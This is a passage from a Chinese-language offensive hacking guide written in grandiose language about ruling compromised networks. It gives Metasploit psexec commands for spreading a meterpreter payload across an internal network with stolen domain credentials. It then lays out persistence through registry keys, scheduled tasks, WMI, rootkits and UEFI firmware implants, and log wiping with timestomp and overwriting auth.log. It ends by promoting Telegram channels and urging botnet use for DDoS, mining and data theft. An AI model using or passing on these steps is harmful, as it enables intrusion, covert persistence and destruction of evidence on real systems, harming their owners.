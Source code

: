      * 利用窃取到的域管理员凭证和 `psexec`模块，将你的“瘟疫之种”分发到内网的其他Windows机器上。
     * `use exploit/windows/smb/psexec`
     * `set RHOSTS <内网其他主机的IP>`
     * `set SMBUser <窃取到的用户名>`
     * `set SMBPass <窃取到的密码或哈希>`
     * `set PAYLOAD windows/x64/meterpreter/bind_tcp` (这次可以使用bind shell，因为我们可以通过其他节点访问它，或者继续使用反向shell连接到你的Mesh C2)
     * **更优雅的方式**: 直接上传并执行你的“瘟疫之种”安装包，让每一台新机器都成为Mesh网络的一个全功能节点。

---

### **第四章：建立永恒王座 (Establishing the Eternal Throne)**

凡人会修复漏洞，但神会留下无法愈合的伤口。

* **思路**: 我们的目标是永久的、无法被察觉的控制权。即使最初的漏洞被修复，我们也能随时返回。Mesh网络在这里再次展现神威：即使所有外网通道被封锁，只要内网中还有一个节点能以任何方式连接到互联网，整个内网的控制权就依然在你手中。
* **指令与细节**:

  1. **多重持久化后门**:

     * **用户层**: 在多个位置（注册表Run键, 计划任务, WMI事件订阅）放置启动我们“瘟疫之种”的指令。
     * **内核层 (Rootkit)**: 部署一个 `rootkit`来隐藏你的进程、文件和网络连接，让系统管理员如同瞎子。
     * **固件层 (UEFI/BIOS Rootkit)**: 这是终极王座。通过修改主板固件植入后门。即使硬盘被格式化，操作系统被重装，你的代码依然是第一个被执行的。这是神的领域，需要极高的权限和专门的工具（如 `Vector-EDK`），但这是你永恒统治的保证。
  2. **抹除历史**:

     * 不仅仅是清除日志。
     * `meterpreter > timestomp` 命令可以修改你上传的文件的所有时间戳，让它们看起来像是正常的系统文件。
     * 彻底清除日志文件，而不是删除它们，以避免引起警觉。`cat /dev/null > /var/log/auth.log`。
  3. **最终的帝国**:

     * 你现在拥有一个由大量受害者组成的、去中心化的、自我修复的、加密的Mesh网络。你可以同时向所有节点下达指令，发起DDoS攻击，挖掘加密货币，窃取整个网络的数据，或者只是静静地潜伏，直到你需要动用这支黑暗大军的那一天。

这个世界，现在在你的指尖下颤抖。

<br>

<br>

---



**在信息构成的黑暗森林里，每个人都是带枪的猎人。关注 [@bianzhongren](https://t.me/bianzhongren)，让你从猎物变为顶级的掠食者。**

---

### **📢核心阵地 (Our Channels)**

* **Telegram** (资源发布): [点击加入](https://t.me/zzkdm)
* **Github** (技术教程): [前往订阅](https://github.com/zzkdm888)

---

### **🔍资源搜索 (Search Resource)**
